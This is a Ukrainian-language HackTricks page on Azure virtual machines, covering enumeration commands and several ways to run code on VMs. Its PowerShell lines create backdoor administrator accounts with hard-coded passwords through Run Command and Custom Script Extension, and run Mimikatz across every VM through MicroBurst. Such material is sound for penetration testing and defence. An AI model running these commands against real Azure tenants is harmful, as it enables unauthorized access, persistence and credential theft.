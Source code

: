 # Az - Віртуальні машини та мережа

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-прийоми, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure - це один із кількох типів [обчислювальних ресурсів на вимогу та масштабовані](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібно більше контролю над обчислювальним середовищем, ніж це пропонують інші варіанти. Ця стаття надає вам інформацію про те, що варто врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи конфігурації.** Ви можете знайти короткі **описи,** **приклади** та **команди переліку** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечний, повністю керований доступ через SSL до RDP (Remote Desktop Protocol) та SSH (Secure Shell) через портал Azure. Він інтегрований у межах віртуальної мережі Azure, що дозволяє підключення RDP та SSH до ВМ за допомогою приватних IP-адрес, уникнення необхідності публічних IP-адрес. Це робить його безпечнішим та зручнішим альтернативним методом порівняно з традиційними методами, що включають призначення публічних IP-адрес та налаштування правил NSG для доступу до ВМ. Розробники та ІТ-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure за допомогою веб-браузерів, що спрощує процес для середовищ розробки та тестування.

Для переліку всіх хостів Azure Bastion у вашій підписці ви можете використати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перелік віртуальних машин
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Виконання команд віртуальній машині**

### **AAD Вхід в VM**

Можливо дозволити доступ користувачам, які були автентифіковані через AzureAD. Наприклад, спробуйте отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, яку використовували при спробі входу) можливо отримати помилку:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **дотримуйтесь цих інструкцій**, перейдіть за посиланням [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вкажіть код, використовуйте електронну адресу та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача є достатньо дозволів для цього: роль `Вхід адміністратора віртуальної машини` або `Вхід користувача віртуальної машини`).

### **Виконати команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Виконання розширення власного скрипта**

Розширення віртуальних машин (VM) Azure - це **невеликі додатки**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **VM Azure**. Наприклад, якщо віртуальній машині потрібна установка програмного забезпечення, антивірусний захист або можливість виконання скрипта всередині неї, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Бажаний стан конфігурації (DSC)

Бажаний стан конфігурації (DSC) - це інструмент PowerShell, схожий на Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантажувати конкретні файли конфігурації. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не відповідає стандартам DSC, як показано на наданій фігурі.

Виконання цих команд спрощується за допомогою функції [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією та файл повинен бути запакований в архівний файл **.zip**. Навіть якщо синтаксис може бути некоректним для DSC, код все одно буде виконано. Однак розширення позначить статус виконання як "помилка", і вихідні дані з команди не будуть видимі через перезапис статусу повідомленням про помилку.

### Визначення додатків VM

Визначення додатків VM дозволяють повторно розгортати версіоновані додатки на віртуальну машину Azure. Цей ресурс підтримує розгортання та оновлення додатків на віртуальних машинах. Для налаштування цього необхідно виконати кілька кроків, включаючи команди, такі як **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод включає **"VMAppExtension"**, який встановлюється автоматично, коли додаток застосовується до віртуальної машини. Розширення отримує файл з вказаного URI та називає його точно так само, як додаток, без розширення. Для правильного виконання файлу поле "ManageActions" у виклику REST API повинно бути налаштоване на перейменування файлу з відповідним розширенням. Після завершення налаштування цього методу структура буде схожа на показану на наданій фігурі.

Однак цей метод виконання є досить повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в конкретних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копіювання додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидва методи надають унікальні способи виконання команд та розгортання додатків в середовищах Azure, кожен зі своїм набором вимог, кроків та врахувань.

### Гібридні групи робочих станцій (HWGs) в Azure

[**Гібридні групи робочих станцій (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє виконувати Runbooks, налаштовані в обліковому записі автоматизації, на віртуальній машині Azure, яка є частиною призначеної HWG. Це виконання спрощується за допомогою розширення, встановленого на віртуальній машині, яке розгортає код Runbook на віртуальну машину. Важливим аспектом цього процесу є те, що фактичні облікові дані не мають значення для виконання, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як показано на наданій фігурі.

Важливою деталлю для тих, хто використовує віртуальні машини з Windows 10, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути встановлена для запуску як PowerShell версії 5.1 замість 7.1. Ця вимога випливає з того, що PowerShell 7.1 не встановлюється за замовчуванням на цих віртуальних машинах, що може призвести до невдачі у виконанні скрипта, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод автоматизації та управління завданнями в гібридних середовищах, що дозволяє централізовано керувати та виконувати завдання на віртуальних машинах Azure.


## Посилання

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або групи **telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
